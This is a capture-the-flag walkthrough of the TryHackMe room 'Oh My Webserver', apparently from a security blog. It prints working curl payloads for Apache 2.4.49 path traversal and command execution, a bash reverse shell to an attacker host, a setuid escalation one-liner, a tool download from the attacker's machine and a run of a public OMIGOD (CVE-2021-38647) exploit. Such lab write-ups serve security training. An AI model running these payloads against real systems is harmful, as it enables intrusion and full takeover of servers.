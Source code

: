 ```yaml
---
title: "THM: Oh My Webserver"
date: 2025-03-02
categories: [CTF, Red Team]
tags: [CTF, Red Team]
permalink: /posts/ctf-oh-my-webserver
image:
  path: /assets/img/thumbnails/ctf-oh-my-webserver.png
---
```




### **Walkthrough**

#### **CTF Platform**: TryHackMe  
#### **Level**: Medium  

#### **Tools Used**:

  - `nmap`  
  - `curl`  
  - `metasploit`  
  - `netcat` (`nc`)  
  - Python3  
  - Exploit scripts (e.g., CVE-2021-38647)  

#### **Resources Used:**:

  - [Tryhackme](https://tryhackme.com/room/ohmyweb)
  - [Exploit-DB](https://www.exploit-db.com/)  
  - [CVE-2021-38647 GitHub Repository](https://github.com/AlteredSecurity/CVE-2021-38647)  


## **Steps for the CTF**

---

### **Task 1: Oh-My-Webserver**

#### **What is the User Flag?**

1. **Enumeration with Nmap**  
   Start by scanning the target machine using `nmap`. Use the following command to perform a service version detection scan:
   ```bash
   nmap -sSCV <IP>
   ```
   Analyze the results to identify open ports and services running on the target. Pay special attention to any unusual or outdated services.

2. **Research Vulnerabilities**  
   Based on the service versions identified during the scan, search for known vulnerabilities. For example, if Apache 2.4.49 is detected, use `searchsploit` to find relevant exploits:
   ```bash
   searchsploit Apache 2.4.49
   ```
   Visit the [Exploit-DB link](https://www.exploit-db.com/exploits/50383) to understand the exploit details.

3. **Exploiting the Vulnerability**  
   Use `curl` to exploit the vulnerability. Craft a payload to access sensitive files such as `/etc/passwd`. Here's an example of how to structure the request:
   ```bash
   curl -s --path-as-is -d "echo Content-Type: text/plain; echo; /etc/passwd" http://<IP>/cgibin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh
   ```
   Replace `<IP>` with the target machine's IP address. This step demonstrates how to traverse directories and execute commands.

4. **Establishing a Reverse Shell**  
   Set up a listener on your machine using `netcat`:
   ```bash
   nc -lvnp 4444
   ```
   Then, modify the `curl` command to send a reverse shell payload:
   ```bash
   curl 'http://<IP>/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type:text/plain; echo; bash -i >& /dev/tcp/<IP>/4444 0>&1'
   ```
   Once the connection is established, you will have a shell on the target machine.

5. **Privilege Escalation to Root**  
   Explore the system to locate the user flag. Use commands like `ls`, `ifconfig`, and `cat` to navigate and inspect files. For example:
   ```bash
   ls -la
   cat /root/user.txt
   ```
   To escalate privileges, try executing commands as root:
   ```bash
   python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
   ```

6. **Retrieve the User Flag**  
   The user flag is located in the `/root/user.txt` file. You can read it using:
   ```bash
   cat /root/user.txt
   ```

---

#### **What is the Root Flag?**

1. **Transferring Tools to the Target Machine**  
   If additional tools are required, transfer them to the target machine. For example, upload `nmap` to the `/tmp` directory:
   ```bash
   curl http://<my_own_IP>/nmap -o /tmp/nmap
   ```
   Use the uploaded tool to perform further enumeration:
   ```bash
   ./nmap -sSCV -p- 172.17.0.1
   ```

2. **Exploiting CVE-2021-38647**  
   Research the CVE-2021-38647 vulnerability and its exploit script. Clone the repository from GitHub:
   ```bash
   git clone https://github.com/AlteredSecurity/CVE-2021-38647
   ```
   Run the exploit script against the target:
   ```bash
   python3 CVE-2021-38647.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a;cat /root/root*'
   ```

3. **Retrieve the Root Flag**  
   The root flag is located in the `/root/root.txt` file. Use the exploit output or manually inspect the file to retrieve the flag.
